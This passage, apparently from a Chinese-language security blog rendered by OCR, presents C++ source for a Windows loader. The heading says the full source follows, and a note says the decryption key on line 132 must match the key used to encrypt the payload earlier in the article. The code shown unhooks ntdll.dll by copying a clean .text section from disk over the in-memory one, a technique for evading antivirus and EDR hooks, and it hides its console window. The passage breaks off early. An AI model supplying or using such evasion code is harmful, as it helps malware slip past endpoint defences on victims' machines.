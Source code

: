 ```php
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);

    return 0;
}
```

### 具体实现

**该将的都讲了,接下来上源码!**

需要注意的是,132行的key设置为文章开头你加密的key

```php
#include <Windows.h>
#include <wincrypt.h>
#include <string.h>
#include <stdlib.h>
#include <winreg.h>
#include <tlhelp32.h>
#include <time.h>
#include "resource.h"
#include <io.h>
#pragma comment(lib, "Crypt32.lib")
#include <psapi.h>
#include <iostream>
#include <stdio.h>
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

DWORD UNHOOKntdll() {
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(HANDLE(-1), ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", 
  GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, 
  PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);
    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase +
  hookedDosHeader->e_lfanew);
    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++)
    {
        PIMAGE_SECTION_HEADER hookedSectionHeader = 
    (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) 
    + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress),
      hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      (LPVOID)((DWORD_PTR)ntdllMappingAddress
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }
    CloseHandle(ntdllFile);
```
